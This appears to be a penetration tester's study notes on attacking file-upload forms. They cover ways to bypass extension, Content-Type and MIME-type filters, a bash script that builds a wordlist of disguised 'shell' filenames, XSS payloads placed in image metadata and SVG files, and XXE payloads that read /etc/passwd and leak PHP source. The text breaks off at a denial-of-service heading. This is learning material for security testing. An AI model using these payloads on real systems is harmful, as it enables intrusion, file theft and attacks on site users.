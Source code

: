 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Bypassing Filters and Validation
### Client-side validation
- This can be bypassed by intercepting the request and sending it directly rather than via the website (eg. burp)

### File Extension Deny List
- In windows, file extensions are case insensitive
- Fuzz for if any extension variations are accepted ( [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst), [.NET](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP), and common [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt))
### File Extension Allow List
- Fuzzing extensions is still useful to see what extensions are available, it may also show if any extensions are able to be bypassed 
- Use double stacked extensions, it may be that the filter only check if it contains, not ends with
- Character injection (these have specific ways to be used however but most lists will include it correctly)
	- `%20`
	- `%0a`
	- `%00`
	- `%0d0a`
	- `/`
	- `.\`
	- `.`
	- `…`
	- `:`
This script will generate all permutations of character injection using the above
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Content-Type Filtering
- As the `Content-Type` header is determined client-side, we can modify it with [[Burp Suite]]. We can fuzz using something like SecLists' [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) to find which types are allowed.

### MIME-Type Filtering (File content inspection)
- These filters work by comparing the file's content to determine its MIME-Type. This is usually done by inspecting the first few bytes of the file's content to identify the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).
- The magic bytes for *GIFs* are actually ASCII printable bytes so they can be easily added by prefixing the file with `GIF87a`, `GIF89a`, or `GIF8`.

To determine what kind of filters are in place, we can try the following:

| MIME-Type  | Content-Type | Extension  | Result                              |
| ---------- | ------------ | ---------- | ----------------------------------- |
| Allowed    | Allowed      | Allowed    | Should work fine                    |
| Allowed    | Allowed      | Disallowed | Extension filtering                 |
| Allowed    | Disallowed   | Allowed    | Content-Type filtering              |
| Disallowed | Allowed      | Allowed    | MIME-Type filtering                 |
| Allowed    | Disallowed   | Disallowed | Content-Type &/ Extension filtering |
| Disallowed | Disallowed   | Allowed    | MIME-Type &/ Content-Type filtering |
| Disallowed | Allowed      | Disallowed | MIME-Type &/ Extension filtering    |

## Limited File Uploads
Some file upload forms will have protections that cannot be bypassed, however, this doesn't mean that we can't abuse these still...
### XSS
Javascript code could be included in an uploaded file (eg. image metadata) which might then be able to be used as a [[Cross-Site Scripting (XSS)#Stored XSS|Stored XSS]] exploit.
```bash
# Change the image metedata comment to include an XSS payload
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
```
If the metadata of an image was viewable on the site, it may allow for XSS. We might be able to change the image's MIME-Type to `text/html` which some applications may interpret as a HTML document instead of an image.

This can also be done for other formats like `SVG`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
	<rect x="1" y="1" width="1" height="1" fill="white" />
	<script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE
As `SVG` files are XML-based, we can also do XXE attacks via them.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
As reading files is particularly important for web applications, we might able to view source code. Eg.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
> XXE isn't limited to just SVGs, any file type that contains XML data can be used (eg. PDF, Word, PowerPoint). Many files use XML for its formatting.
> XXE can also be used to trigger SSRF attacks.

### DoS
Decompression 


